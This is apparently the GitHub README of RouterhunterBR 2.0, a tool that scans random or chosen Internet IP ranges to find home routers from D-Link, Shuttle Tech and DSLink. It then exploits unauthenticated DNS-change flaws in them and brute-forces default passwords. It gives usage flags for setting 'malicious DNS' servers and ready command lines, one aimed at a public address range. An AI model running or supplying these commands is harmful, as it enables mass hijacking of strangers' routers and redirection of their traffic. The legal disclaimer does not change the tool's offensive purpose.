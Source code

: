# Scanner Routerhunter 2.0
 Tool used to find vulnerable routers and devices on the Internet and perform tests

```
	          _	          _           _		   		   
  ___ ___ _ _| |_ ___ ___| |_ _ _ ___| |_ ___ ___ 
 |  _| . | | |  _| -_|  _|   | | |   |  _| -_|  _|
 |_| |___|___|_| |___|_| |_|_|___|_|_|_| |___|_|
				       BR - v2.0

 Tool used to find vulnerable routers and devices on the Internet and perform tests.

[ Coded by Jhonathan Davi a.k.a jh00nbr - jhoonbr at protonmail.ch ]
[ fb.com/JhonVipNet - twitter.com/jh00nbr - github.com/jh00nbr/ - blog.inurl.com.br - www.youtube.com/c/Mrsinisterboy ]


[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual 
consent is illegal. It is the end user's responsibility to obey all applicable local, state and 
federal laws.Developers assume no liability and are not responsible for any misuse or damage caused
by this program.  
```


 * AUTOR: Jhonathan Davi A.K.A jh00nbr
 * EMAIL*: jhoonbr@protonmail.ch
 * Blog: http://blog.inurl.com.br
 * Twitter: https://twitter.com/jh00nbr
 * Facebook: https://fb.com/JhonVipNet
 * Fanpage: https://fb.com/InurlBrasil
 * Github: https://github.com/jh00nbr/
 * Youtube: https://www.youtube.com/c/Mrsinisterboy

### https://jh00nsec.wordpress.com/2016/01/22/routerhunterbr-2-0-testing-vulnerabilities-in-devices-and-routers-connected-to-the-internet-dnschanger/

### Description
------
  The RouterhunterBR is an automated security tool that finds vulnerabilities and performs tests on routers and vulnerable devices on the Internet. The RouterhunterBR was designed to run over the Internet looking for defined ips tracks or random in order to automatically exploit the vulnerability DNSChanger on home routers.
  
  The script explores four vulnerabilities in routers
  
 * Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit            
  reference: http://www.exploit-db.com/exploits/35995/

 * D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit           
  reference: http://www.exploit-db.com/exploits/35917/

 * D-Link DSL-2640B Unauthenticated Remote DNS Change Exploit            
   reference: http://1337day.com/exploit/23302/ 
 * D-Link DSL-2780B DLink_1.01.14 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37237/ 

 * D-Link DSL-2730B AU_2.01 - Authentication Bypass DNS Change            
   reference: https://www.exploit-db.com/exploits/37240/ 
 * D-Link DSL-526B ADSL2+ AU_2.01 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37241/ 

 * DSLink 260E - Authenticated routers - DNS Changer - Bruteforce 
   reference: https://www.youtube.com/watch?v=tNjy91g2Rak                             
   http://blog.inurl.com.br/2015/03/dslink-260e-defaut-passwords-dns-change_17.html 

### Requirements
```
import sys, os, argparse, itertools, requests, random, time, threading, base64, socket
from datetime import datetime
```

### Usage

```
  -range 192.168.1.0-255, --range 192.168.1.0-255  Set range of IP
  -bruteforce, --bruteforce                        Performs brute force with users and passwords standards, and soon    after defines the malicious DNS.
  -startip 192.168.*.*, --startip 192.168.*.*      Start - IP range customized with wildcard / 201.*.*.*
  -endip 192.168.*.*, --endip 192.168.*.*          End - IP range customized with wildcard / 201.*.*.*
  -dns1 8.8.8.8, --dns1 8.8.8.8                    Define malicious dns1
  -dns2 8.8.4.4, --dns2 8.8.4.4                    Define malicious dns2
  --threads 10                                     Set threads numbers
  -rip, --randomip                                 Randomizing ips routers
  -lmtip 10, --limitip 10                          Define limite random ip
```

### Commands

```
Random ips
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --randomip --limitip 10 --threads 10                      
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 -rip -lmtip 10 --threads 10

```


```
Scanner in range ip:
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --range 192.168.25.0-255 --threads 10

```

```
IP range customized with wildcard / Ex: --startip 201.*.*.* -  --endip 201.*.*.*
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --startip 192.168.*.* --endip 192.168.*.* --threads 10
```
```
Brute force with users and passwords on routers that requires authentication, forcing alteration of dns - DSLink 260E.
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.4 --range 177.106.19.65-70 --bruteforce --threads 10
```

### Screenshots 
![rip](http://i.imgur.com/CAhvz1T.png)
![range](http://i.imgur.com/sA1IKTp.png)
![brute](http://i.imgur.com/IhtaZhw.png)
